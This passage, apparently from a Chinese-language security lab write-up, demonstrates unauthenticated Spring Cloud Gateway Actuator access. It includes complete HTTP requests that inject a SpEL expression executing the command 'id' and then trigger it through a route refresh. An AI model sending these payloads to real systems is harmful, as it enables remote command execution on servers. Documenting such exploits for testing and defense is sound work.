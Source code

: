 

http://123.58.224.8:58036/actuator/gateway/routes

![image-20240926144456390](https://image.201068.xyz/assets/37.微服务/image-20240926144456390.png)

访问http://123.58.224.8:58036/actuator/env界面，发现呈现出了`springboot`配置文件

![image-20240926144408255](https://image.201068.xyz/assets/37.微服务/image-20240926144408255.png)

#### POC证明未授权漏洞存在

##### 构建恶意 SpEL 表达式

首先，添加一个**执行系统命令** `id` 的**恶意 SpEL 表达式**的 xxx 路由，发送如下数据包：

> Content-Type: application/json

```python
POST /actuator/gateway/routes/xxx HTTP/1.1
Host: 123.58.224.8:58036
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/json
Content-Length: 361

{
    "id": "hacktest",
    "filters": [{
        "name": "AddResponseHeader",
        "args": {
            "name": "Result",
            "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
        }
    }],
    "uri": "http://example.com"
}
```

![image-20240926144244869](https://image.201068.xyz/assets/37.微服务/image-20240926144244869.png)

##### 应用刚添加的路由

然后，应用刚添加的路由，将**触发 SpEL 表达式的执行**，发送如下数据包：

```python
POST /actuator/gateway/refresh HTTP/1.1
Host: 123.58.224.8:58036
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
